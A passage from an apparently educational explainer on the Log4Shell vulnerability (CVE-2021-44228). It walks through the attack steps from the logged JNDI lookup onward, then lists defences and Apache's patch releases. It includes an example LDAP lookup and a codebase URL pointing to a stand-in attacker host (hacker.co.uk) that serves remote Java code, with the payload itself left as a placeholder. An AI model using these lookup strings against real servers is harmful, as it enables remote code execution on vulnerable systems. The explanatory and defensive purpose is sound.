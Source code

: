 Step 3 – Log4J interprets the string that it just logged as an actual command and reaches out to the malicious LDAP server with a query:
```python
ldap://hacker.co.uk/x
```

Step 4 – The malicious LDAP server responds with malicious Java code:
```python
dn :
javaClassName: Malicious
javaCodeBase: https://hacker.co.uk/evilcode
javaSerializedData: <…>
```

Step 5 – The vulnerable server then downloads the malicious Java code and executes it:
```python
public class Malicious implements Serialize {
	…
	static {
		<malicious Java code>
	}
}
```

At this point, it is up to the attackers what happens next. So far the vulnerability has been used by [nation-state actors](https://www.bleepingcomputer.com/news/security/log4j-vulnerability-now-used-by-state-backed-hackers-access-brokers/) and [ransomware gangs](https://www.bleepingcomputer.com/news/security/hackers-start-pushing-malware-in-worldwide-log4shell-attacks/) to setup crypto miners, and botnets.

## How can we defend against Log4Shell?

There are several means of defending against Log4Shell. Refer to the attack flow below:

{% include elements/figure.html image="./assets/log4shelldefenseflow.png" caption="Defense Flow" %}

At stage 1 – To prevent against the insertion of the JNDI lookup in the header field, Web Application Firewalls rules can be setup to prevent succession posting of the web header. However, attackers have quickly developed means to [get around this defence](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words).

At stage 2 – Perhaps the most obvious step is to disable Log4J and remove the threat of Log4Shell. This is only a temporary fix, as a logging tool will still be required eventually.

At stage 3 – Disabling JNDI if the application doesn’t require the feature, is a possible short-term fix.

At stage 5 – Disabling remote codebases is also a decent short-term fix. This would result in JNDI lookups only being available within the applications specific network and prohibit lookups across the internet.

Patching Log4J – to the most recent version is the best means of remediating this vulnerability. During an incident like Log4Shell, additional vulnerabilities are often found in the offending software.

As per [Dynatrace](https://www.dynatrace.com/news/blog/what-is-log4shell/): “[Apache issued a patch](https://logging.apache.org/log4j/2.x/security.html#cve-2021-44228) for CVE-2021-44228, version 2.15, on December 6, 2021. However, this patch left part of the vulnerability unfixed, resulting in [CVE-2021-45046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046) and a second patch, version 2.16, released on December 13. Apache released a third patch, version 2.17, on December 17 to fix another related vulnerability, [CVE-2021-45105](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45105). They released a fourth patch, 2.17.1, on December 28 to address another vulnerability, [CVE-2021-44832](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44832).”
